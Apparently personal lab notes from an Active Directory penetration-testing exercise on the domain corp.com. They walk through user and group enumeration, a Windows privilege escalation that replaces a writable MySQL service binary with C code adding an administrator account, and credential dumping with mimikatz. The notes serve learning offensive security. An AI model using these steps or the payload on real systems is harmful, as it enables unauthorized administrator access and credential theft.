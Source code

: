 ![[Pasted image 20230603064850.png]]

Domain: corp.com

Computers 

![[Pasted image 20230603065046.png]]

Users

![[Pasted image 20230603065217.png]]

Groups
![[Pasted image 20230603065240.png]]
 
Loggin as michael(low prev user)

```bash
xfreerdp /u:michael /p:password /d:corp.com /v:192.168.1.50 /w:1920 /h:1080 /fonts /small-sizing

```

get local users

```bash
net user 
```

get domain users 

```bash
net user \domain
```

get michael's group

```bash
whoami /groups
```

This gives information about local groups and domain groups michael is member of

![[Pasted image 20230603070238.png]]

Since michael is not a part of any of prev groups 

<U>Prev Escalation</U>

Find information about services

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName,StartName | Where-Object {$_.state -like 'Running'}
```

![[Pasted image 20230603070958.png]]
Checking permission for mysqld.exe

![[Pasted image 20230603071101.png]]

I- inheritence
F- Full access

Creating a binnary to replace mysqld.exe

```C
#include <stdlib.h>
int main()
{
	int i;
	i = system ("net user knight P@ssw0rd /add");
	i = system ("net localgroup administrators knight /add");

	return 0;
}
```


compile the file to an exe

```bash
x86_64-w64-mingw32-gcc adduser.c adduser.exe

```

Check for the access for restarting the msql services

```bash
Get-CimInstance -ClassName win32_service -Filter 'name="mysql"' | Select-Object StartMode 

```

Restarting computer

```Powershell
Restart-Computer -WhatIf

```

![[Pasted image 20230603072347.png]]

Loggin as Knight as local account

```bash

xfreerdp /u:knight /p:p@ssw0rd /v:192.168.1.50 /w:1920 /h:1080 /fonts /small-sizing

```

<U>MimiKatz</U>

mimikatz # privilege::debug

It helps to access certain system level process to recover passwords or Hashes

mimikatz # sekurlsa::logonpasswords

